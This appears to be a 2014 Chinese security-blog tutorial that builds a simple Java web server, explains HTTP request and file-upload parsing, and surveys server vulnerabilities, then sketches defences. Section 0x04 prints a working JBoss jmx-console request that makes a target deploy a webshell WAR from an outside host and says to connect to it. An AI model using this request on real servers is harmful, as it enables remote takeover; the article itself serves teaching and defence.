# 攻击 JavaWeb 应用[9]-Server 篇[2]

2014/01/22 12:58 | [园长](http://drops.wooyun.org/author/园长 "由 园长 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

注：在继后门篇后已经有很长时间没更新了，这次一打算写写`Server[1]`的续集。喜欢 B/S 吗？那我们今天干脆就来写一个简单的“Web 服务器”吧。

## 0x01 WebServer

* * *

Web 服务器可以解析(handles)HTTP 协议。当 Web 服务器接收到一个 HTTP 请求(request)，会返回一个 HTTP 响应(response)，例如送回一个 HTML 页面。

Server 篇其实还缺少了 JBOSS 和 Jetty，本打算放到`Server[2]`写的。但是这次重点在于和大家分享 B/S 实现和交互技术。`Server[1]`已经给大家介绍了许多由 Java 实现 的 WebServer 相信小伙伴们对 Server 的概念不再陌生了。Web 服务器核心是根据 HTTP 协议解析(Request)和处理(Response)来自客户端的请求，怎样去解析和响应来自客户端的请求正是我们今天的主题。

### B/S 交互



浏览器发送 HTTP 请求。经 Internet 连接到对应服务器。服务器解析并处理 Http 请求，返回处理结果到浏览器。浏览器解析服务器返回的数据并显示解析后的网页。

在学习之前需要了解浏览器和 Server 工作原理，比如什么是 HTTP 协议什么是 Socket。对于更底层的协议暂不提及。

### HTTP 协议

HTTP 的发展是万维网协会（World Wide Web Consortium）和 Internet 工作小组（Internet Engineering Task Force）合作的结果，（他们）最终发布了一系列的 RFC，其中最著名的 RFC 2616，定义了 HTTP 协议中现今广泛使用的一个版本—HTTP 1.1。

详情： http://www.w3.org/Protocols/

请求 http://www.google.com:



客户端浏览器发送了一个 HTTP 请求， 第一行 GET / HTTP/1.1 即：以 GET 方式请求“ /” 目录 HTTP/1.1 是请求的 HTTP 协议版本。而 Google 返回的则是一个基于 HTTP 协议的响应，其中包括了状态码、内容长度、服务器版本、以及返回内容类型等。客户端浏览器发送了一个请求(HttpRequest)，Google 服务器返回处理(Handling Request)并响应(HttpResponse)了这个请求。

通俗的说 HTTP 协议是一种固定的请求格式，只要按照固定的格式去发送请求，服务器就可以按照固定的方式去处理来自客户端的请求。

### Socket：

Socket 是应用层与 TCP/IP 协议族通信的中间软件抽象层，它是一组接口。Socket 通常也称作”套接字"，用于描述 IP 地址和端口，是一个通信链的句柄。在 Internet 上的主机一般运行了多个服务软件，同时提供几种服务。每种服务都打开一个 Socket，并绑定到一个端口上，不同的端口对应于不同的服务。  

## 0x01 Java 实现 Web Server

* * *

Oracle 提供了一个基础包:java.net 用来实现网络应用程序开发。提供了阻塞的 Socket 和、非阻塞的 SocketChannel、URL 等。 客户端通过 Socket 与服务器端建立连接，然后客户端发送请求内容到服务器。服务器接收到请求返回给客户端，请求完成后断开连接。

### 1、Client

发送一个非标准的 HTTP 请求内容为”Hello...”给 SAE 服务器:  

请求首先到达了对方监听 80 端口的 nginx，在发现客户端发送的内容不符合 HTTP 请求规范的同时返回了一个 400 错误(400 Bad Request)。 发送一个合法的 HTTP 请求(不截图了，把上面的 Hello...换成了 req)，即发送：

```
"GET / HTTP/1.1\r\n"+
"Host: www.wooyun.org\r\n"+
"Connection: keep-alive\r\n"+
"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\r\n"+
"Cookie: bdshare_firstime=1387989676924\r\n\r\n”; 
```

服务器返回信息：  

两次请求的差异在于是否按照 HTTP 协议发送，当我们随意向目标端口发送请求时，返回了一个错误请求结果。当发送符合 HTTP 协议的请求时服务器返回了正确的处理结果。所以只需按照 HTTP 协议去解析请求和响应即可。与此同时不难看出请求头的任何内容都是可以伪造的，这也是之前写 cs 交互的时候提到为什么不要信任来自客户端的任意请求的根本原因。现在尝试着写一个 Server，去解析来自浏览器的请求。

除了使用上面的“冗余代码”去发送 HTTP 请求，你还可以用 oracle 自带的 URL 包去发送 HTTP 请求会更加简单。通过 setRequestProperties 一样可以修改请求头。用 getHeaderFields 就能获取到响应头信息了。

### 2、简单 HTTP 服务器实现

需再一次看下上面 Socket 流程图，在服务器上监听某个端口(listen)，等待请求(accept)。一旦有连接到达就开始读取请求内容(read)，然后处理并输出响应内容(write)，最后 close。服务器端核心业务是获取请求、解析请求、处理请求、返回响应。

Server.java 核心代码:  

浏览器请求：http://192.168.199.240:9527/wooyun.jsp?user=yzmm2&pass=123  

浏览器请求头：

```
GET /wooyun.jsp?user=yzmm&pass=123 HTTP/1.1
Host: 192.168.199.240:9527
Connection: keep-alive
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 5.2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/31.0.1650.63 Safari/537.36
Accept-Encoding: gzip,deflate,sdch
Accept-Language: zh-CN,zh;q=0.8 
```

现在需要做的是解析请求。在 Server 里面有一段解析请求的代码：`Request req = new Request().parserRequest(sb.toString());//`解析请求。具体的需要解析的内容包括：请求头(Header)、请求参数(Parameter)、请求的 URI(RequestURI)等。如果是文件上传请求的话还得解析具体的内容(form-data)。 在解析的整个过程没看过 RFC 文档，只是根据个人理解去实现请求解析，有不对的地方见谅。

首先用换行符切开请求头，得到如下结果：`GET /wooyun.jsp?user=yzmm&pass=123 HTTP/1.1`。可见这里是按空格隔开的，用正则的\s 就可以切开了当前行了。这样就能简单的拿到:`[GET, /wooyun.jsp?user=yzmm&pass=123, HTTP/1.1]`把他们保存到类的成员变量以便后面调用。

解析请求头比较简单，只需把请求头内容按照 key、value 方式解析出来就行了。比如：`Host: localhost:9527`，解析后就成了`key＝Host，value＝localhost:9527`。parserGET 方法就更简单了，把 `/wooyun.jsp?user=yzmm&pass=123`以”?”号切开后再以”＝”号切开，最终得到的是`key=user,value=yzmm、key＝pass，value＝123`。



  处理结果都装在了如下变量：

```
private String method;
private String queryString;
private String requstURI;
private String host;
private Map<String, Object> formContent = new LinkedHashMap<String, Object>();
private Map<String, Object> header = new LinkedHashMap<String, Object>();
private Map<String, Object> parameter = new LinkedHashMap<String, Object>();
private Map<String, Object> multipart = new LinkedHashMap<String, Object>();

```

如果想取出请求参数可以用 parameter.get(“xxxx”)就行了，是不是跟 javaee 有那么些相似了？当请求解析完成后需要去加载请求的文件，比如这里的 wooyun.jsp。

当请求处理完后调用 getResponse 方法把结果输出到浏览器：

```
public String getResponse(String content){
        return "HTTP/1.1 200 OK\r\n"+
               "server: "+Constants.SYS_CONFIG_NAME+"\r\n"+
               "Date: "+new Date()+"\r\n"+
               "X-Powered-By-yzmm: "+Constants.SYS_CONFIG_VERSION+"\r\n"+
               "Content-Type: text/html\r\n"+
               "Content-Length: "+(content!=null?content.length():0)+"\r\n\r\n"+
               content;
}

```

从上可见服务器的响应信息也是可以任意的。比如我修改了响应中的 server 的值你就会在浏览器的 Response 当中看到当前的 server 是: z7y-server。出现在响应头里面有意思的漏洞有：CRLF 注入，有兴趣的小伙伴儿可以了解下。

### 0x02 文件上传请求解析

* * *

文件上传请求和普通的 GET、POST 不一样，在 JavaEE 里面会把 multipart 请求封装成一个 InputStream 对象。如果想要从请求里面解析具体的文件内容需要读取流。值得注意的是 multipart/form-data 中的 input 域也会包含在 InputStream 里面。在 JavaEE 里面可以用：request.getInputStream();或 request.getReader();方法获取。

```
<!DOCTYPE html>
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
<title>File Upload</title>
</head>
<body>
    <form action="http://192.168.199.240:9527/wooyun.jsp?user=zsy&pass=123" method="post" enctype="multipart/form-data">
        1<input type="checkbox" value="1" name="i" checked="checked" /> 2<input type="checkbox" value="2" name="i" checked="checked" /><br/>
        <input type="file" name="file" /><br/>
        <input type="text" value="<script>alert('你好.');</script>" name="name" style="width:250px;" / ><br/>
        <input type="submit" value="sub" />
    </form>
</body>
</html>

```



文件域下方 Content-Type: text/html 实际上隐藏了 upload.html 的内容，chrome 不会在那儿显示。判定一个请求是否是文件上传只需从请求头里面取出 Content-Type 就行了，如果 type 是 multipart/form-data;即标识当前请求类型是文件上传。

关于文件上传请求解析，我写的比较粗暴了。按照分割线分别把内容域和文件域提取出来，并封装到 multipart map 里面，它们的 key 分别是 file 和 para。  

写文件到”服务器”：  

### 文件上传请求安全问题

值得注意的是假如一个文件上传和 input 域同时出现的情况下，跨站和 Sql 注入几率会非常的高。因为文件上传会把 input 域的请求参数封装到流里面，很多时候并没有人会去处理这样的恶意请求。

类似的案例： [WooYun: 360 网站宝/安全宝/加速乐及其他类似产品防护绕过缺陷之一](http://www.wooyun.org/bugs/wooyun-2013-044349) 。漏洞提交者在文件上传请求中传递了 SQL 注入语句，而上面的安全软件的拦截都失效了。。。

据说在 PHP 里面还存在另外一个问题，文件上传的 input 域请求会被解析到对应的 POST 请求对象当中。那么也就是说假设一个站拦截了普通的 GET、POST 请求，但是没有拦截文件上传的恶意请求。仅需要简单的构造一个上传并传递注入语句就绕过了所谓的防御了。

## 0x03 文件或虚拟路径请求和处理

* * *

### 虚拟路径请求处理

在 Servlet 里面一个 Servlet 映射的是一个虚拟的路径。比如请求:http://xxx /servlet/hello。这个 servlet/hello 并不是一个实际存在的文件地址。所以我们请求的 wooyun.jsp 可以是真实存在的一个文件，也可以是一个虚拟的路径。比如当客户端请求 wooyun.jsp 的时候我们把请求交给 Controller 去处理(仿 MVC)：  

而我们的控制层假设做了一个请求校验：当 user 等于 yzmm 的时候输出 Good!，否则输出 Error.  

分别请求：http://192.168.199.240:9527/wooyun.jsp?user=yzmm&pass=123 和 user＝zsy 输出都是正常的。  

### 普通的文件请求

假如用户请求的不是虚拟路径而是一个实际存在的文件呢？这个时候就需要把服务器的文件内容读取并返回给客户端。比如把 Contoller 注掉改为 content = readFile(request);这次去读取 ROOT 下的 wooyun.jsp 内容。  

这次输出了”用户目录/webapps/zsy/ROOT/wooyun.jsp”内容。

## 0x04 Server 安全问题

* * *

### 文件解析漏洞

服务器在处理请求或其本身可能存在一些安全问题。经典的比如 IIS、Nginx 解析漏洞。那么是什么原因让 Server 变得这么”不安全”呢?

在之前的系列里面讲过如果把 Tomcat 的 web.xml 的 filter 添加任意后缀到 servlet-name 为 jsp 的 Servlet 当中，那么所有后缀为.txt 的请求都会被当作 jsp 解析！  

假设 Tomcat 在写正则的时候一不小心写成了：

```
Pattern.compile("\\.jsp").matcher("1.jsp_jpg.jpg").find();

```

那么所有的 1.jsp.jpg 的请求都会交给 jsp 对应的 servlet 处理。跟这类似的漏洞 apache 曾经就出现过。问题是 apache 如果在 mime.types 文件里面没有定义的扩展名，会给解析成倒数第二个定义的扩展名。

### 文件读取漏洞

好吧，这个 Tomcat 做的有点奇葩。在某些低版本的 Tomcat 当请求目录并没有找到对应的索引文件，且 web.xml 的 listings 是 true。于是 Tom 猫就干脆列出这个目录的所有文件。

Tomcat 还出过另一个低级漏洞，当请求的文件是 UTF-8 编码的时候会造成任意文件遍历漏洞。触发的条件为 Apache Tomcat 的配置文件 context.xml 或 server.xml 的'allowLinking' 和 'URIencoding' 允许'UTF-8'选项

### War 文件部署漏洞

很多时候需要在线上部署一个新的应用时可以在 Server 的控制台去动态的部署一个 war 文件（其实就是一个压缩文件包）。Server 会自动解压并部署。这虽说是非常的方便，但是却因为 Server 各自的实现不一或者自身安全意思淡漠导致任意的 war 文件都可以远程部署到 Server 中去。这里面的典型代表就是 Jboss。请求：

```
http://192.168.0.113:8080/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.system:service=MainDeployer&methodIndex=17&arg0=http://www.ahack.net/iswin.war 
```

成功后访问：`http://192.168.0.113:8080/iswin/index.jsp` 菜刀连接（默认包含 index.jsp、index.jspx、index.jspf、cmd.jsp 三个 shell）。

测试版本：jboss-6.1.0.Final。http://p2j.cn/?p=342


控制台输出信息：  

这货去年十月还出过一个高危的漏洞，同样是远程 war 部署。

Apache Tomcat/JBoss EJBInvokerServlet / JMXInvokerServlet (RMI over HTTP) Marshalled Object RCE

详情： [`www.exploit-db.com/exploits/28713/`](http://www.exploit-db.com/exploits/28713/) [`zone.wooyun.org/content/7398`](http://zone.wooyun.org/content/7398)

除了上述漏洞某些 Server 还出过拒绝服务漏洞、控制台弱口令漏洞、爆路径漏洞、WebDAV、XSS 等漏洞。可谓想做好一个 WebServer 是非常的艰难。

## 0x05 Server 漏洞防御

* * *

在总结了之前的 Server 安全问题之后，我们有没有想过怎么去防御来自客户端的攻击呢？我们应该如何去防御？这里仅简要介绍防范思路至于防御细节，对不起请自行实现。

防御方式：

```
1、由远及近，从 CDN 层我们可以拦截所有的恶意请求。可以尝试在请求到达服务器之前净化请求信息。
2、从网络层可以用硬防处理恶意请求。
3、从服务器层可以写对应的 Server 拓展(Filter)拦截恶意请求。
4、安装服务器安全软件。
5、在应用层需要尽可能的注重代码编写，如果无法确保安全性可以在应用层写一个安全过滤器。 
```

从实现的角度来说前两者的成本较高，效果或许并不会特别明显，后面几种方式显得更轻。

这一期可以说是对 Server 篇的补充吧，源码没什么水平有兴趣的朋友可以看看(下载地址：http://pan.baidu.com/s/1qW2Nwx2 )。希望大家看过笑笑之后更加“深入”的了解 Request 和 Response 吧。原打算写个简易浏览器也没时间了。快过年了，祝小伙伴们新年快乐！

版权声明：未经授权禁止转载 [园长](http://drops.wooyun.org/author/园长 "由 园长 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Discuz!X 升级/转换程序 GETSHELL 漏洞分析](http://drops.wooyun.org/papers/929)
*   [安全科普：Waf 实现扫描器识别 彻底抵挡黑客扫描](http://drops.wooyun.org/tips/730)
*   [常见的 HTTPS 攻击方法](http://drops.wooyun.org/tips/4403)
*   [攻击 JavaWeb 应用[2]-CS 交互安全](http://drops.wooyun.org/tips/164)
*   [Angry Birds 和广告系统泄露个人信息——FireEye 对 Angry Birds 的分析](http://drops.wooyun.org/news/1408)
*   [从 Windows 到安卓：多重攻击机制的远控的分析](http://drops.wooyun.org/papers/1270)